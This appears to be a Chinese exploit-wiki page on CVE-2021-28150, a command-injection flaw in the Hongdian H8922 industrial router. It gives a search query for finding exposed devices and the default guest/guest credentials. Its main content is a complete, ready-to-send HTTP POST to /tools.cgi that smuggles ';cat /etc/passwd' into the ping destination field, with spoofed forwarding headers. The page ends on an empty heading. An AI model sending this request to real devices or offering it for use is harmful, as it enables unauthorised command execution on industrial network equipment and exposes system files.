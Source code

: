 # 宏电 H8922 后台命令执行漏洞 CVE-2021-28150

## 漏洞描述

宏电 H8922 后台中的网络测试模块中存在命令执行漏洞。通过命令拼接执行任意命令

## 漏洞影响

<a-checkbox checked>宏电 H8922</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app:"Hongdian H8922 Industrial Router"</a-checkbox></br>

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

使用 ; 命令拼接执行任意命令

![img](../../../.vuepress/public/img/hd-2.png)



请求包为



```plain
POST /tools.cgi HTTP/1.1
Host:
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A
```



## 